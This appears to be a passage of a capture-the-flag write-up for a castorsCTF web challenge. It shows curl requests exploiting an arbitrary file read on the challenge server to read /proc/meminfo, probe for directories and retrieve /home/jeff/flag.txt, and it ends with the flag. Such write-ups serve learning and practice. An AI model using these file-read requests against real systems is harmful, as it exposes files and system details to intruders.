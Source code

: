 ```golang
```

Wow, that can read arbitrary files with the right request.

```
root@kali:~# curl -s "http://web1.cybercastors.com:14436/test///proc"
Directories: /
File: proc
Contents:
root@kali:~# curl -s "http://web1.cybercastors.com:14436/test//proc/meminfo"
Directories: /proc
File: meminfo
Contents: DirectMap1G:     8388608 kB
```

And it will tell you if a given directory exists or not.

```
root@kali:~# curl -s "http://web1.cybercastors.com:14436/test///problems"
open ///problems: no such file or directory
Directories: /
File: problems
Contents: 
root@kali:~# curl -s "http://web1.cybercastors.com:14436/test///home"
Directories: /
File: home
Contents: 
```

## Solution

At this point, we could use a dictionary attack to get a directory listing of the target system with this knowledge, but it would take awhile to run. Turns out there is no need for that on this problem.

My teammate "bigpick" noticed that the intern's name in the description was "Jeff", so he tried `/home/jeff` which worked, and then tried looking for files under there and found `flag.txt`:

```
root@kali:~# curl -s "http://web1.cybercastors.com:14436/test/home/jeff/flag.txt"
Directories: home/jeff
File: flag.txt
Contents: castorsCTC{wh0_l4iks_qUiZZ3s_4nyW4y}
```

That flag failed though, because apparently someone can't spell "CTF". This is the actual value accepted by the scoreboard:

```
castorsCTF{wh0_l4iks_qUiZZ3s_4nyW4y}
```

